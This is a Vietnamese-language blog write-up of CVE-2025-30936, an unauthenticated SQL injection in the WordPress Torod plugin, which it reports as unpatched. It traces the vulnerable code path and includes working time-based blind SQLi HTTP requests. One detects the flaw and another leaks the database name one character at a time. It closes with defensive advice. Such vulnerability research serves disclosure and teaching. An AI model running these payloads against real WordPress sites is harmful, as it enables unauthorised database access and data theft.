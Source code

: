 # CVE-2025-30936 Analysis & POC


<!--more-->

Lỗ hổng xảy ra trên plugin **Torod** của WordPress. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.

* **CVE ID**: [CVE-2025-30936](https://www.cve.org/CVERecord?id=CVE-2025-30936)
* **Product**: [WordPress Torod Plugin](https://wordpress.org/plugins/torod/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.9
* **Fixed in**: <= N/A
* **CVSS severity**:  High (9.3)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Torod**: v1.9

## Analysis

Nguyên nhân cố lõi do ứng dụng chèn trực tiếp dữ liệu từ **POST** request vào SQL query mà không có cơ chế quản kiểm soát chặt chẽ.

### Vulnerable Sink

CVE này không có bản vá nên không thể sử dụng **diff tool** để so sánh sự khác biệt giữa **code lỗi** và **code đã fix lỗi**.

> Trong WordPress, để SQLi xảy ra, ứng dụng phải tương tác với database thông qua biến global `$wpdb`, ta search từ khóa này trong thư mục của plugin để tìm sink.

{{< figure src="search_sink.png" caption="Tìm vị trí sink trong code" alt="Search sink" >}}

👉 Dữ liệu từ `$_POST['country_id']` được đưa thẳng vào truy vấn SQL mà không có cơ chế kiểm soát hợp lệ. Việc chỉ sử dụng `sanitize_text_field()` mới dừng lại ở mức **escape chuỗi**, chứ không đảm bảo tính an toàn. Do đó, lỗ hổng SQLi có thể xảy ra.

* Source: `$_POST['country_id']`
* Sink: `$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")`

### How it work?

Lỗ hổng nằm trong hàm `get_regions_and_cities` của class `ajaxyk` thuộc file **inc/ajaxyk.php**. Để xác định nơi nó được gọi, ta tìm kiếm với từ khóa `get_regions_and_cities` trong thư mục chứa plugin.

{{< figure src="search_1.png" caption="Tìm vị trí hàm get_regions_and_cities" alt="Search 1" >}}

👉 `get_regions_and_cities` được construct của class `ajaxyk` gọi làm callback của 2 action hook thông qua hàm `add_action`

* `wp_ajax_get_regions_and_cities`

  * Được viết theo cú pháp `wp_ajax_{$action}`
  * Yêu cầu người dùng đăng nhập

* `wp_ajax_nopriv_get_regions_and_cities`

  * Được viết theo cú pháp `wp_ajax_nopriv_{$action}`
  * Không yêu cầu người dùng đăng nhập

Vì đây là lỗ hổng **unauthenticated** nên ta chỉ quan tâm tới hook `wp_ajax_nopriv_get_regions_and_cities`.

Như vậy khi gửi **POST** request đến `/wp-admin/admin-ajax.php` với tham số

```http
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here
```

* Callback `get_regions_and_cities` được gọi.
* `country_id` được lấy trực tiếp từ request và chèn vào SQL query.
* Query thực thi với payload độc hại.

## Exploit

### Detect SQLi

Gửi **POST request** chứa payload SQLi.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Khi đó câu query sẽ trở thành:

```sql
SELECT * FROM wp_torod_regions WHERE country_id = (SELECT 1 FROM (SELECT SLEEP(5))a)
```

{{< figure src="time_resp.png" caption="Kết quả phản hồi thời gian" alt="Responsed time" >}}

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Các technique có thể sử dụng trong trường hợp table rỗng**:

* **UNION**: vì nó không phụ thuộc vào dữ liệu bảng của câu query trước đó, nhưng cần phải tìm được số cột tương ứng.
* **Subquery**:

  * **Subquery trong mệnh đề WHERE**: MySQL có thể tối ưu hóa và bỏ qua subquery nếu kết quả có thể xác định sớm. Nếu bảng không có dữ liệu, kết quả cuối cùng sẽ là tập rỗng, MySQL không cần thực thi `SLEEP()`.
  * **Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính.

{{< figure src="https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png" caption="Thứ tự thực thi truy vấn SQL" alt="SQL Excution Order" >}}

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `country_id` được lấy từ **POST** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

## Conclusion

Lỗ hổng **CVE-2025-30936** trong plugin WordPress **Torod** từ phiên bản **1.9** trở lại, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Chưa có bản vá chính thực nào cho lỗ hổng này.

**Key takeaways**:

* Kiểm soát kỹ input từ người dùng.
* Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
* Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Torod Plugin <= 1.9 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/torod/vulnerability/wordpress-torod-1-9-sql-injection-vulnerability?_s_id=cve)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-09-28-cve-2025-30936/  


